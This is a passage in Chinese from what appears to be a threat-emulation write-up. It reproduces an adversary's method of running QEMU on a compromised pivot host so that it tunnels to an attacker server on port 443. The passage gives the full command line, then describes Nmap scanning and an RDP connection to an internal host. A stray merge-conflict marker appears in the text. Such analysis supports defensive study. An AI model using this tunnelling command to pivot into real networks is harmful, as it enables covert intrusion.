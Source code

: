 QEMU 的另一个副本在 PivotHost 上运行，并通过套接字网络设备连接到云中 AttackerServer 上的端口 443。我们还连接了一个用户型网络设备，通过集线器与 socket 结合。我们使用的 QEMU 启动选项与对手之前使用的类似。

<<<<<<< HEAD
```plain
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<AttackerServer>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

启动后，QEMU 会建立一条从 PivotHost 到 AttackerServer（或更准确地说，到 Kali Linux VM）的网络隧道。 Kali Linux 可以扫描 PivotHost 子网连接的其他系统。  
[![](assets/1710899880-25044c3a980ccc80eb6ad7d817af89c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306190923-fcf0545c-dba9-1.png)  
扫描定位到 InternalHost，IP 地址为 192.168.56.109。 Nmap 程序显示端口 3389 已打开。我们尝试使用 RDP 连接到 InternalHost。  
[![](assets/1710899880-a5f2956f4ddb4d7853d5651f55f8fafa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306191022-2019dec6-dbaa-1.png)  
